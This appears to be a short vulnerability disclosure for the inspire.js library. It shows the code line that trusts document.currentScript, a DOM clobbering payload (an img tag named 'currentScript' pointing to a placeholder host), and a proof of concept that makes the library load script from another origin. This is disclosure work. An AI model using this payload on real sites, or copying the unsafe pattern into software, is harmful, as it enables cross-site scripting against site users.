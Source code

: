 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx">```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://inspirejs.org/inspire.js`

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```
<img name=currentScript src="http://localhost:8000"></img>
<script src="https://inspirejs.org/inspire.js"></script>
```
